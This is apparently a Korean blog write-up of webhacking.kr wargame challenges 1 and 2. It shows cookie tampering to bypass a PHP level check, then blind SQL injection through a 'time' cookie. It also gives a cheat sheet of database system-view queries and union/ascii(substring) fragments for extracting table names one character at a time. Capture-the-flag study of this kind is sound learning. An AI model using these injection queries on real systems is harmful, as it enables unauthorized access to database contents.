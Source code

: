 ```yaml
---
title: "Security: webhacking.kr 01-3"
last_modified_at: 2020-06-07T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 01 문제 풀이
---

01번 문제를 들어가자마자 다음과 같은 메세지가 보인다.
{: .notice}

```
---------------------

level : 1
view-source
```
view-source를 클릭하여 들어가면 다음과 같은 소스 코드를 볼 수 있다. 
{: .notice}

```php
<?php
  include "../../config.php";
  if($_GET['view-source'] == 1){ view_source(); }
  if(!$_COOKIE['user_lv']){
    SetCookie("user_lv","1",time()+86400*30,"/challenge/web-01/");
    echo("<meta http-equiv=refresh content=0>");
  }
?>
<html>
<head>
<title>Challenge 1</title>
</head>
<body bgcolor=black>
<center>
<br><br><br><br><br>
<font color=white>
---------------------<br>
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
<br>
<a href=./?view-source=1>view-source</a>
</body>
</html>
```

소스코드를 살펴보면 앞서 봤던 페이지를 출력하는 부분이 있고 일부 화면에는 보이지 않는 부분을 볼 수 있다.
{: .notice}

```
<?php
  if(!is_numeric($_COOKIE['user_lv'])) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>=6) $_COOKIE['user_lv']=1;
  if($_COOKIE['user_lv']>5) solve(1);
  echo "<br>level : {$_COOKIE['user_lv']}";
?>
```

'user_lv'라는 쿠키를 불러와서 숫자가 아니거나 6 이상이면 1로 초기화 해주고 
6보다는 작고 5보다는 크면 solve(1)을 호출한다는 것을 알 수 있다.
{: .notice}

쿠키값을 수정하기 위해 크롬에 "Edit This Cookie" 이라는 플러그인을 설치했다. 그리고 아래와 같이 5.5 라는 값을 입력해주었다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제1/1-1.PNG" alt="">
  <figcaption> </figcaption>
</figure> 
Edit This Cookie에 5.5 입력
{: .notice}

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제1/1-2.PNG" alt="">
  <figcaption></figcaption>
</figure> 
문제를 이미 풀고나서 다시 들어가서 캡처했더니 메세지가 다르다!
{: .notice}
 ---
### 02 문제 풀이
---

문제 2번에 들어가자마자 빈화면에 Restricted area 라는 메세지만 떠있다. html 코드를 보면 힌트가 있을 것 같아 살펴보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제2/2-1.PNG" alt="">
  <figcaption> </figcaption>
</figure> 

그랬더니 주석 처리된 부분에 admin.php로 들어갖 말라는 일종의 경고 메세지가 쓰여있는게 눈에 띄었고 뒤늦게 발견했지만 맨위에는 시간 부분이 주석처리 되어있었다.
{: .notice}

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제2/2-2.PNG" alt="">
  <figcaption> </figcaption>
</figure> 

혹시 몰라 이전에 받은 Edit This Cookie를 통해 쿠키를 살펴보니 time 이라는 쿠키를 볼 수 있었다. 이 쿠키에 아무 값이나 대입해보았다.
{: .notice}

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제2/2-3.PNG" alt="">
  <figcaption> </figcaption>
</figure> 

그랬더니 주석처리된 시간 부분이 입력한 값 처럼 바뀌었다. 사진에는 없지만 True와 False를 입력했더니 1과 0이 출력되었다. True와 False를 반환하는 것을 보고 Blind SQL Injection을 생각할 수 있었고 다음 사진처럼 입력해보았다.
{: .notice}

<figure class="half">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제2/2-4.PNG" alt="">
  <figcaption> </figcaption>
</figure> 

DB에 테이블이 몇개가 있는지 확인하기 위해서 다음과 같은 SQL문을 작성하였다
{: .notice}

**여기서 잠깐!**  
데이터베이스별로 시스템 뷰가 존재하는데 이 시스템 뷰로 DB나 테이블을 조회할수있다.
{: .notice--warning}

* **MS-SQL**
* 데이터베이스 조회
	* SELECT * FROM sys.sysdatabases
	* SELECT name, database_id, create_date FROM sys.databases ; 
	* SELECT DB_NAME() -> 현재 DB명 반환
	* SELECT DB_NAME(3) -> DB id 가 3인 DB명 반환
* 테이블 조회
	* SELECT * FROM sys.tables 
	* SELECT * FROM information_schema.tables
* 컬럼 조회
	* SELECT * FROM sys.syscolumns 
	* SELECT column_name FROM information_schema.columns WHERE table_name = "테이블명"
* 각테이블 상세 컬럼 정보 
	* select * from sys.systypes 
{: .notice--info}

* **My SQL, Maria DB**
* 데이터베이스 조회
	* SELECT DATABASE(): 현재 사용중인 DB명
	* SELECT 1 FROM Information_schema.SCHEMATA WHERE SCHEMA_NAME = 'DB명': 해당 DB 존재여부 확인(있으면 1, 없으면 0)
	* SELECT SCHEMA_NAME FROM information_schema.SCHEMATA WHERE SCHEMA_NAME = 'DB명'; 
* 테이블 조회
	* SELECT 1 FROM information_schema.tables WHERE table_schema = 'DB명'  AND table_name = '테이블명': 테이블의 존재여부 확인(있으면 1, 없으면 0)
	* SELECT TABLE_NAME, TABLE_COMMENT FROM information_schema.tables WHERE table_schema = 'DB명'
* 컬럼 조회
	* SELECT 1 FROM Information_schema.columns WHERE table_schema = 'DB명'  AND table_name = '테이블명'  AND column_name = '컬럼명' -> 컬럼의 존재여부 확인(있으면 1, 없으면 0)
	* SELECT column_name FROM information_schema.columns WHERE table_schema = 'DB명'  AND table_name = '테이블명' 
{: .notice--info}

**풀이를 위해 알아둬야할 SQL문**  
{: .notice--info}
```
select count(table_name) from information_schema.tables where table_schema=database()
//현재 위치한 데이터베이스의 테이블의 수를 검색
select length(table_name) from information_schema.tables where table_schema=database() limit 0, 1
//현재 위치한 데이터베이스의 테이블 중 첫 번째 테이블명의 길이를 검색

//limit pos, len: 출력 레코드의 개수를 제한하는 함수로 pos는 시작 행을 의미하며 0부터 시작, len은 개수를 의미한다. limit 0,1은 첫 번째부터 1개의 레코드를 의미하며, pos값을 1씩 증가시키면 다음 레코드를 하나씩 순서대로 추출할 수 있다.
//table의 이름을 불러오는 구문은 union select table_name from information_schema.tables where table_schema = database()입니다.
//이때, web에서는 가장 상위에 있는 하나의 줄만을 가져오기 때문에 limit절을 사용해주어야 합니다.

union select table_name from information_schema.tables where table_schema = database() limit 0,1
String.substring(start,end)
//문자열  start위치 부터 end전까지 문자열

select ascii(substring(table_name, 1, 1)) from information_schema.tables where table_schema=database() limit 0,1
//현재 위치한 데이터베이스의 테이블 중 첫 번째 테이블명의 첫 번째 단어를 아스키코드로 출력

select ascii(substring(table_name, 2, 1)) from information_schema.tableswhere table_schema=database() limit 0,1
//두 번째 단어를 알아냅니다.

select length(table_name) from information_schema.tables where table_schema=database() limit 1, 1
//두 번째 테이블명의 길이가 나옵니다.
```

---
### 03 문제 풀이
---